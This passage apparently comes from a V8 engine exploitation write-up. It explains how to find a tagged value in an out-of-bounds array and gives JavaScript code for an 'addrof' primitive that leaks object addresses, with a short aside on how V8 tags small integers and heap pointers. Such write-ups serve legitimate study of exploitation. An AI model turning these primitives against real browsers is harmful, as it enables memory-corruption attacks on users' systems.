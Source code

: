 Well, now we have our setup, we just have to choose an object to put in `object.leak` and we're going to be able to leak its address using `oob_array` at the correct index.

But how can we find this index, well we have 2 choices (again):
- Use gdb and look at the index
- Use a tag

I used both ways but the tag option makes that we don't hardcode any value, so it may be more efficient. (in case of a classical remote problem..)

The plan is to loop over the indexes of `oob_array` until we find the value `0xdead << 1` so we know that we just have to read one element after.

<hr>

**Note:**

The value we need is `0xdead << 1` because v8 uses 32-bit numbers to represent all values and it differentiates two types of 32-bit numbers:
- Small integers (SMI) with lsb set to 0
- Heap objects with lsb set to 1

So `0xdead` which is a SMI will be stored in memory as `0xdead << 1`.

More information about data types in v8 [here](https://www.dashlane.com/blog/how-is-data-stored-in-v8-js-engine-memory#BlogArticle-HowisdatastoredinV8JSenginememory?-Coredatarepresentationtypes/efficientlyrepresentingvalues).

<hr>

We can append our `addrof` primitive to our exploit file:

```js
addrof = (obj) => {
    // Setting object.leak to point to obj
    object.leak = obj;
    let ret;

    // Search for the right index
    for (let index = 0; index < 0x1000; index++) {
        // Convert the 64-bit float as 2 32-bit numbers
        let half = d2u(oob_array[index]);

        // 2 cases:

        // The tag is the first element -> just return the second one
        if(half[0] == (object.tag << 1)){
            ret = half[1];
            break;
        }
        // The tag is the second element -> return the first element of the next index
        else if(half[1] == (object.tag << 1)){
            ret = d2u(oob_array[index + 1])[0];
            break;
        }       
    }
    return BigInt(ret);
}
```
